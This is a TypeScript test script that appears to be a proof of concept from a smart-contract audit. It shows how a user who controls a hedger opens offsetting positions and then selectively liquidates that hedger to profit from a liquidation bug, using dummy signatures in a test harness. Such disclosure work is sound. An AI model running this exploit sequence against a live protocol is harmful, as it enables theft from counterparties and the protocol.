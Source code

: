 ```ts
  this.liquidator = new User(this.context, this.context.signers.liquidator);
  await this.liquidator.setup();

  // open position (100 @ 10)
  await this.user.sendQuote(limitQuoteRequestBuilder().quantity(decimal(100)).price(decimal(10)).build());
  await this.hedger.lockQuote(1, 0, decimal(1));
  await this.hedger.openPosition(1, limitOpenRequestBuilder().filledAmount(decimal(100)).openPrice(decimal(10)).price(decimal(10)).build());

  // open 2 opposite direction positions with user-controlled hedger to exploit them later
  // (positions with slightly different sizes so that at some point the hedger can be liquidated)
  await this.user.sendQuote(limitQuoteRequestBuilder()
    .quantity(decimal(190))
    .price(decimal(10))
    .cva(decimal(10)).lf(decimal(5)).mm(decimal(10))
    .build()
  );
  await this.hedger2.lockQuote(2, 0, decimal(2, 16));
  await this.hedger2.openPosition(2, limitOpenRequestBuilder().filledAmount(decimal(90)).openPrice(decimal(10)).price(decimal(10)).build());

  await this.user.sendQuote(limitQuoteRequestBuilder()
    .positionType(PositionType.SHORT)
    .quantity(decimal(200))
    .price(decimal(10))
    .cva(decimal(10)).lf(decimal(5)).mm(decimal(10))
    .build()
  );
  await this.hedger2.lockQuote(3, 0, decimal(2, 16));
  await this.hedger2.openPosition(3, limitOpenRequestBuilder().filledAmount(decimal(100)).openPrice(decimal(10)).price(decimal(10)).build());

  var info = await this.user.getBalanceInfo();
  console.log("partyA allocated: " + info.allocatedBalances / 1e18 + " locked: " + info.totalLocked/1e18 + " pendingLocked: " + info.totalPendingLocked / 1e18);
  var info = await this.hedger2.getBalanceInfo(this.user.getAddress());
  console.log("partyB allocated: " + info.allocatedBalances / 1e18 + " locked: " + info.totalLocked/1e18 + " pendingLocked: " + info.totalPendingLocked / 1e18);

  // price goes to 5, so user is in a loss of -500, a slight profit of +50 from short position, but controlled hedger is in a -50 loss and 
  // becomes liquidatable
  // user now exploits the bug by liquidating controlled hedger
  await context.liquidationFacet.connect(this.liquidator.signer).liquidatePartyB(
    this.hedger2.signer.address,
    this.user.signer.address,
    await getDummySingleUpnlSig(decimal(-50)),
  );

  // liquidate only quote 2 (which is not profitable for the user)
  await context.liquidationFacet.connect(this.liquidator.signer).liquidatePositionsPartyB(
    this.hedger2.signer.address,
    this.user.signer.address,
    await getDummyQuotesPriceSig([2], [5]),
  )

  var liquidated = await context.viewFacet.isPartyBLiquidated(this.hedger2.signer.address, this.user.signer.address);
  console.log("PartyB Liquidated: " + liquidated);

  var info = await this.user.getBalanceInfo();
```